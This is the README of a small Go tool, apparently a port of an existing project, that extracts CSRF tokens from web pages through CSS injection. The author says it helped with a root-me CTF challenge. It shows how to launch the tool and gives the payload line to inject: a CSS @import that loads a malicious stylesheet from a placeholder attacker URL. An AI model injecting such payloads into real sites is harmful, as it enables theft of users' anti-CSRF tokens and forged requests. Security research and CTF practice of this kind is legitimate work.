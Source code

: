 # cssrf

<div align=center>
<pre><code>
<b>Extract juicy information using CSS injection
<i>especially csrf token 🥜</i></b>
<br>
<sup>Basically the same thing as <i><a href=https://github.com/d0nutptr/sic>https://github.com/d0nutptr/sic</a></i> but in Golang
<br>I try my best to change the rust code but I lost so many time</sup>
</code></pre>
</div>

## Show me!

All you need is **launch** `cssrf`:
```shell
cssrf [flags] # nothing crazy => cssrf -h to get flags info
```

**Inject**  the malicious css:
```html
<!-- in <style> tag -->
@import url("https://[ATTACKER_URL]/malicious.css");
```

And **wait**:

![demo](https://github.com/ariary/cssrf/blob/main/cssrf.gif)

*This help me solving a [root-me](https://www.root-me.org/fr/Challenges/Web-Client/CSS-Exfiltration) challenge*

<sup>Posting solution is forbidden, thus the csrf token is not integer</sup>
